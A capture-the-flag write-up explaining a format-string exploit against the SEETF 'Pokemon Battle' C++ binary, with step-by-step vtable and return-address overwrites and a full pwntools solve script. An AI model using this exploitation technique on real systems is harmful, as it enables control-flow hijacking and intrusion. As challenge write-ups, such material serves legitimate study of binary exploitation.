 ## Pokemon Battle
![pokemon](images/pokemon.png)

### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:
![pokemon](images/pokemon2.png)
The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

To do our goal before it will write many input and its too complicated. So change our goal to overwrite the return address of **Battle()** to **win()**


Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.
Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.

![pokemon](images/pokemon4.png)

So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.
![pokemon](images/pokemon5.png)
So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```

![pokemon](images/pokemon6.png)

Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.

![pokemon](images/pokemon7.png)

Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here:
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
With this now we solve the challenge.

Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```